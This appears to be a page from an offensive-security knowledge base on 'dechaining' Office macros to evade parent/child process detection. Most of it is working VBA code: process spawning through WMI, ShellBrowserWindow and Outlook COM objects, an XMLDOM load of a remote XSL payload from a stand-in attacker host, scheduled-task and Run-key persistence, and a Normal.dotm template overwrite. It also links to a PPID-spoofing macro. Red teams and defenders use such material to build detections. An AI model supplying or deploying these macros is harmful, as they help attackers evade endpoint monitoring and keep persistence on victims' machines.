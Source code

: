 # ⭕ Dechaining Macros

Looking at the Parent/Child processes is a good indicator of malicious activity, for example MSWord spawning PowerShell is pretty suspicious. Here, we will show some techniques that can be used to evade these types of analysis.

## <mark style="color:red;">WMI</mark> <a href="#wmi" id="wmi"></a>

```vba
Sub MyMacro()
    Arg = "cmd /k calc.exe"
    GetObject("winmgmts:").Get("Win32_Process").Create Arg, Null, Null, pid
End Sub
```

```vba
// Some codeSet objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("cmd.exe /k calc.exe", Null, objConfig, intProcessID)
```

This will make your process be spawned under "wmiprvse.exe."

## <mark style="color:red;">ShellBrowserWindow</mark> <a href="#shellbrowserwindow" id="shellbrowserwindow"></a>

```powershell
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```

This will make your process spawn from under "explorer.exe"

## <mark style="color:red;">XMLDOM</mark> <a href="#xmldom" id="xmldom"></a>

```vba
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("http://attacker.com/payload.xsl")
xml.transformNode xsl
```

## <mark style="color:red;">Scheduled Tasks</mark> <a href="#3e76" id="3e76"></a>

```vba
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Microsoft Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\notepad.exe"
Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)
```

## <mark style="color:red;">Registry Keys</mark> <a href="#registry-keys" id="registry-keys"></a>

We can modify the registry which can serve as persistence and a way of executing your code.&#x20;

#### WMI:

```vba
Set objRegistry = GetObject("winmgmts:\\.\root\default:StdRegProv")
objRegistry.SetStringValue &H80000001, "Software\Microsoft\Windows\CurrentVersion\Run", "key1", "value1"
```

#### Wscript:

```vba
Set WshShell = CreateObject("WScript.Shell")
WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\key2", "value2", "REG_SZ
```

## <mark style="color:red;">PPID Spoofing & Command Line Spoofing</mark>&#x20;

Basically we can spoof the parent by passing an arbitrary parent process name you want to use with the CreateProcessA function. We can also spoof the command line arguments by modifying the “CommandLine” in the RTL\_USER\_PROCESS\_PARAMETERS structure in the PEB.

&#x20;The implementation in VBA is here:

{% embed url="https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba" %}

## <mark style="color:red;">Injecting Shellcode</mark> <a href="#injecting-shellcode" id="injecting-shellcode"></a>

Injecting our shellcode to a remote process can make our payload live in another process, although this is not a parent-child evasion technique, we can make our payload live in a remote process.

#### see [injectors/runners](runners-injectors.md) section.

## <mark style="color:red;">Template persistence</mark>

```vba
Set objShell = CreateObject("Wscript.Shell")
appDataLocation = objShell.ExpandEnvironmentStrings("%APPDATA%")
Path = appDataLocation & "\Microsoft\Templates"
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\Normal.dotm", True)
objFile.Write payload
objFile.Close
```

## <mark style="color:red;">Outlook</mark> <a href="#outlook" id="outlook"></a>

```vba
Set obj = GetObject("new:0006F03A-0000-0000-C000-000000000046")
obj.CreateObject("WScript.Shell").Run ("calc.exe")
```
